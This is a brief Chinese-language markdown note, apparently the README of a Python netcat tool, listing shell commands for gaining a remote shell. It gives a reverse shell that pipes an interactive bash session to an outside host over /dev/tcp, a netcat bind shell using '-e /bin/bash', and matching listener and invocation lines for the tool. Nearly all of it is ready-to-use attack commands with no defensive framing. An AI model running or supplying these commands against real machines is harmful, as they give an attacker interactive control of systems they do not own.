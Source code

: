 # NetCat

> python socket通信

###`nc`反弹shell

**反向**

攻击机 `nc -lvp port`

靶机 `/bin/bash -i >& /dev/tcp/ip/port 0>&1`

**正向**

攻击机 `nc ip port`

靶机 `nc -lvp -e /bin/bash`


`python nc`反弹shell
攻击机 `python3 netcat.py -t ip -p port`

靶机`python3 netcat.py -p port -lc`


